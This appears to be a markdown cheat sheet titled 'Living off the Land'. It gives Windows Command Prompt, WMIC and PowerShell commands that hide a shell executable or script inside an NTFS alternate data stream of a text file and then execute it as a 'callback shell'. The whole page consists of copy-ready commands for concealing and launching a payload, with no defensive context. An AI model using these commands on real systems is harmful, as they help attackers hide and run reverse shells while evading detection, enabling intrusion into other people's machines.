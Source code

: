 # Living off the Land

## 01 - Command Prompt

### 1.1 - Basics

- Hide the file

`C:\> type shell.exe > file.txt:shell.exe`

- Execute it

`C:\> start file.txt:shell.exe`

### 1.2 - WMIC

- Execute Callback Shell via ADS

`C:\> wmic process create "c:\path\to\file.txt:shell.exe"`

## 02 - Powershell

### 2.1 - Basics

- Hide the file

`PS C:\> Set-Content file.txt -Stream script.ps1 -Value shell.ps1`

- Execute Callback Shell via ADS

`PS C:\> Get-Content file.txt -Stream script.ps1 | iex`